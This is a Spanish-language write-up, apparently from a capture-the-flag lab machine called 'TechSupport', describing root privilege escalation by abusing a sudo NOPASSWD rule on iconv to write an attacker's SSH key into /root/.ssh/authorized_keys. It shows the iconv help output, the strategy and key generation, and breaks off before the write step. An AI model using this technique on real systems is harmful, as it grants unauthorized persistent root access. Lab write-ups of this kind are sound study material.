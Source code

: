 ## **Escalada de Privilegios Abuso de  `iconv`**

**Análisis Técnico**:

- `iconv` es una utilidad para conversión de codificación de caracteres.
- El permiso `NOPASSWD` permite ejecutarlo como root sin contraseña.
- El binario tiene capacidad de leer y escribir archivos.

## **Investigación de las Capacidades de iconv**

Examiné el comportamiento de `iconv` con:

```bash
scamsite@TechSupport:~$ iconv --help
Usage: iconv [OPTION...] [FILE...]
Convert encoding of given files from one encoding to another.

Options:
  -f, --from-code=NAME       encoding of original text
  -t, --to-code=NAME         encoding for output
  -o, --output=FILE          output file
```

**Hallazgos Clave**:

- Puede leer archivos (`FILE` argumento de entrada)
- Puede escribir archivos (`-o` permite especificar salida)
- No tiene restricciones de path al ejecutarse como root

## **Explotación Técnica Escritura Arbitraria como Root**

### **Estrategia Seleccionada**

Inyectar una clave SSH pública en `/root/.ssh/authorized_keys` para obtener acceso persistente como root.

### **Proceso Detallado:**

**1. Generación de Clave SSH en nuestra maquina**

```bash
                                                
┌──(zikuta㉿zikuta)-[~/techsupport]
└─$ ssh-keygen -t rsa
Generating public/private rsa key pair.
```

**Transferencia de Clave Pública a Víctima:**

Copiamos la clave ssh con 

```bash
cat ~/.ssh/id_rsa.pub
```
